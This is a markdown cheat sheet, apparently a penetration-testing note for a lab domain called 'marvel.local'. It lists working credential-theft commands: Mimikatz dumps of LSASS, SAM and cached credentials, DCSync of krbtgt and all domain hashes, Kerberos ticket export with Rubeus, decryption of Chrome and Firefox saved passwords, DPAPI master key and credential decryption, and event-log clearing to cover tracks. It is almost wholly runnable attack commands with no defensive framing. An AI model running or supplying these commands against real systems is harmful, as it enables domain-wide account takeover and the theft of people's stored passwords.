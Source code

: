 ### Cobalt Strike Mimikatz
logonpasswords contains msv,tspkg,wdigest,kerberos,ssp,credman,cloudap.
```powershell
mimikatz !event::clear
mimikatz !event::drop
mimikatz !sekurlsa::logonpasswords
mimikatz !sekurlsa::ekeys
mimikatz !sekurlsa::dpapi
mimikatz !sekurlsa::tickets /export
mimikatz !lsadump::sam
mimikatz !lsadump::cache
mimikatz kerberos::list /export
mimikatz kerberos::tgt

make_token marvel\administrator P@ssw0rd
mimikatz @lsadump::dcsync /user:marvel\krbtgt
mimikatz @lsadump::dcsync /domain:marvel.local /all /csv
rev2self
```

### Native Mimikatz
NTLM RC4 Hash Dump
```powershell
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit > res1.txt
type .\res1.txt | sls 'username|password|ntlm'
```
Kerberos AES256 Hash Dump
```powershell
mimikatz.exe "privilege::debug" "sekurlsa::ekeys" exit > res2.txt
type .\res2.txt | sls 'username|password|des_cbc_md4'
```
Local Users Hash Dump (SAM)
```powershell
mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" exit > res3.txt
type .\res3.txt | sls "user :|hash|aes256"
```
Domain Cached Credentials
```powershell
mimikatz.exe "privilege::debug" "token::elevate" "lsadump::cache" exit
```

### Rubeus Kerberos Tickets Dump
```powershell
execute-assembly /root/Rubeus.exe triage
execute-assembly /root/Rubeus.exe dump /nowrap > res4.txt
execute-assembly /root/Rubeus.exe dump /nowrap /luid:0x70331 /service:krbtgt
```

### Chrome Credentials
```powershell
https://github.com/djhohnstein/SharpChromium
SharpChromium.exe all > res.txt

https://github.com/ohyicong/decrypt-chrome-passwords
python3 .\decrypt_chrome_password.py > res.txt
```

### Firefox Credentials
```powershell
https://github.com/unode/firefox_decrypt
python3 .\firefox_decrypt.py
```

### DPAPI

#### Enum
```powershell
vaultcmd /list
vaultcmd /listcreds:"Windows Credentials" /all
```

#### Dump encrypted credentials (pbData) and the related master key ID (guidMasterKey) 
```powershell
ls -Hidden C:\users\user2\appdata\local\microsoft\credentials\
mimikatz.exe "dpapi::cred /in:C:\users\user2\appdata\local\microsoft\credentials\DFBE70A7E5CC19A398EBF1B96859CE5D" exit > res1.txt
```

#### Get Master Key File (Encrypted)
```powershell
ls -Hidden C:\users\user2\appdata\roaming\microsoft\protect\<SID>\<MasterKey>
```

#### 1. If the key is cached in LSASS (Admin User)
```powershell
mimikatz.exe "privilege::debug" "sekurlsa::dpapi" exit > res2.txt
type res2.txt | sls "user name|guid|masterkey"
```

#### 2. Interact with the DC through the MS-BKRP RPC service (Domain User)
```powershell
mimikatz.exe "dpapi::masterkey /in:C:\users\user2\appdata\roaming\microsoft\protect\S-1-5-21-410602843-3916082903-3170366279-1119\7f1985f1-624d-4024-b36d-c0ca6d6b3766 /rpc" exit
```

#### Decrypting
```powershell
mimikatz.exe "dpapi::cred /in:C:\users\hassan\appdata\local\microsoft\credentials\DFBE70A7E5CC19A398EBF1B96859CE5D /masterkey:d5b953e1efc3890d63921fc7bd816a26c913dcc47df52b8e18b56a466ca0e1bd486fd6c9b93d31105af1c84ab7ceba1e00216d99e2601c058bdc6af3a00860d0" exit
```
